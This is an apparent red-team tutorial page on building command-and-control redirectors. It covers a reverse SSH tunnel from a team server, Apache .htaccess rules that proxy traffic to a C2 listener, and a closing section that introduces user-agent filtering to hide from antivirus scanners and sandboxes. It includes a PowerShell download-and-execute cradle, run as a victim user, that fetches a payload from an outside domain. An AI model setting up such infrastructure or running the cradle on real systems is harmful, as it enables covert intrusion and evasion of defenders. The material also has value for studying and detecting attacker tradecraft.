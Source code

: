 # Redirectors & Enabling Apache Redirection

## Redirectors

It's important to never store any data on a redirector, traffic should only transmit through it.&#x20;

* We can setup an SSH or VPN tunnel from the C2 server to the HTTP redirector. We want it done this way so no sensitive private keys or credentials for the C2 server on our redirector.

## Install Apache

Follow the guide [here](https://ubuntu.com/tutorials/install-and-configure-apache#2-installing-apache) to install apache.

## Setup SSH Reverse Tunnel

We need to create a reverse SSH tunnel from our team server to our redirectors.

```sh
attacker@teamserver ~> ssh -N -R 8443:localhost:443 attacker@10.10.0.100
```

#### Test SSH tunnel

```sh
attacker@redictor curl -v https://localhost:8443/r1
```

Note: If we are receiving certificate errors from the above command, we'll need to add the .crt to our trusted certificates in `/usr/local/share/ca-certificates` and run **`update-ca-certificates`**`.`

```
scp localhost.crt attacker@10.10.0.100:/home/attacker/
```



## Enable Apache Redirection

Once we have established an SSH tunnel to our redirector running apache, we can begin to configure apache to proxy traffic to through to our C2 listener.

### Editing .htaccess

`.htaccess`is the configuration file used for redirection, amonst others. To enable .htaccess we can modify `/etc/apache2/sites-enabled/default-ssl.conf`.

Under `</VirtualHost>` tag, add a new `<Directory>` with the following:

```sh
<Directory /var/www/html/>
    Options Indexes FollowSymLinks MultiViews
    AllowOverride All
    Require all granted
</Directory>
```

* Add`SSLProxyEngine on` underneath `SSLEngine on`, and restart apache.
* Create a new `.htaccess` file in the apache web root`/var/www/html` with the following:

```sh
RewriteEngine on
RewriteRule ^.*$ https://localhost:8443%{REQUEST_URI} [P]
```

### Testing apache redirection

We can execute the following and check the response in our teamserver.

```sh
curl https://copperwired.com/test
```

```sh
PS C:\Users\bob> iex (new-object net.webclient).downloadstring("https://www.copperwired.com/a")
```

\


## User Agent Redirection

A powerful technique we can use is to redirect content based on the clients user agent, we can block known AV scanners, sandboxes, and unauthorized viewers.
